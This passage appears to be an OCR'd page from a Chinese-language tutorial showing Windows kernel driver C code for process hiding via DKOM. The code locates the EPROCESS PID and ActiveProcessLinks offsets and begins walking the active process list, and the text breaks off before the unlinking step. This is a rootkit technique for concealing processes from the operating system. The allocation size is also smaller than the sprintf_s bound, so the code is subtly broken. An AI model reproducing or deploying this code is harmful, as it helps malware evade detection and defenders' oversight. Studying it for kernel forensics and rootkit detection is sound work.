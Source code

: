 // Get PID offset

ULONG PID\_OFFSET = find\_eprocess\_pid\_offset();

// Initialize LIST\_ENTRY offset

ULONG LIST\_OFFSET = PID\_OFFSET;

// Check Architecture using pointer size

INT\_PTR ptr;

// Ptr size 8 if compiled for a 64-bit machine

// 4 if compiled for 32-bit machine

LIST\_OFFSET += sizeof(ptr);

然后，根据结果，将向PID\_OFFSET添加4或8个字节以确定LIST\_ENTRY偏移量。

以下是实现进程断链隐藏的DKOM和GDB调试方法代码

PCHAR modifyTaskList(UINT32 pid) {

LPSTR result = ExAllocatePool(NonPagedPool, sizeof(ULONG) + 20);;

// Get PID offset nt!\_EPROCESS.UniqueProcessId

ULONG PID\_OFFSET = find\_eprocess\_pid\_offset();

// Check if offset discovery was successful

if (PID\_OFFSET == 0) {

return (PCHAR)\"Could not find PID offset!\";

}

// Get LIST\_ENTRY offset nt!\_EPROCESS.ActiveProcessLinks

ULONG LIST\_OFFSET = PID\_OFFSET;

// Check Architecture using pointer size

INT\_PTR ptr;

// Ptr size 8 if compiled for a 64-bit machine, 4 if compiled for 32-bit machine

LIST\_OFFSET += sizeof(ptr);

// Record offsets for usermode buffer

sprintf\_s(result, 2 \* sizeof(ULONG) + 30, \"Found offsets: %lu & %lu\", PID\_OFFSET, LIST\_OFFSET);

// Get current process

PEPROCESS CurrentEPROCESS = PsGetCurrentProcess();

// Initialize other variables

PLIST\_ENTRY CurrentList = (PLIST\_ENTRY)((ULONG\_PTR)CurrentEPROCESS + LIST\_OFFSET);

PUINT32 CurrentPID = (PUINT32)((ULONG\_PTR)CurrentEPROCESS + PID\_OFFSET);
